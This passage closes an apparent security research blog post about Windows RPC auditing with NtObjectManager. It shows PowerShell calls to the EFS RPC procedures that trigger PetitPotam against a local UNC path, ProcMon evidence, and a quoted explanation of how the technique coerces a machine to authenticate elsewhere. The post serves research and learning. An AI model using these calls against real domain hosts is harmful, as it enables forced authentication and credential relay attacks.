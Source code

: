 We are connected. Let's try *PetitPotam* vulnerable procedures.
```powershell
PS C:\Users\testguy\> $client.EfsRpcOpenFileRaw_Downlevel('\\127.0.0.1\C$\Workspace\all-your-RPC-are-belong-to-NtObjectManger.txt',0)

p0                                                           retval
--                                                           ------
Handle: 00000000-0000-0000-0000-000000000000 - Attributes: 0      5
```

The return value for `EfsRpcOpenFileRaw_Downlevel` is 5 as expected. 

```powershell
PS C:\Users\testguy\> $client.EfsRpcEncryptFileSrv_Downlevel('\\127.0.0.1\C$\test\all-your-RPC-are-belong-to-NtObjectManger.txt')
0
```

The call to `EfsRpcEncryptFileSrv_Downlevel` returns 0 and triggers Petitpotam. 

![petitpotam-procmon-ntobjectmanager.png](/assets/img/2022-06-23-from-ntobjectmanager-to-petitpotam/petitpotam-procmon-ntobjectmanager.png){: .shadow }_ProcMon PetitPotam evidence via NtObjectManager_

In the *Procmon* output, you can see the call to `CreateFile` from `lsass` running as `SYSTEM` on the UNC patch specified in your RPC call `EfsRpcEncryptFileSrv_Downlevel`. In this way, *PetitPotam* forces an arbitrary host to authenticate to another machine, best explained by *Itm4n*:

> Of course, the `NT AUTHORITY\SYSTEM` account cannot be used for network authentication. So, when invoking this procedure with a remote path on a domain-joined machine, Windows will actually use the machine account to authenticate on the remote server. This explains why “PetitPotam” is able to coerce an arbitrary Windows host to authenticate to another machine. [from-rpcview-to-petitpotam](https://itm4n.github.io/from-rpcview-to-petitpotam/#:~:text=Of%20course%2C%20the,to%20another%20machine.)

We made it!

## Conclusion

This concludes our journey into RPC auditing with NtObjectManager. If you made it this far, well done. It was a long trek, but hopefully you learned some things along the way.

NtObjectManager is a powerful tool for RPC auditing and understanding. The ability to generate an RPC client dynamically (with no IDL file or MIDL compiler) and try out procedures on the fly is powerful. It doesn't mean you won't run into issues trying to troubleshoot a failed remote procedure call, but if it was easy, would it be fun?
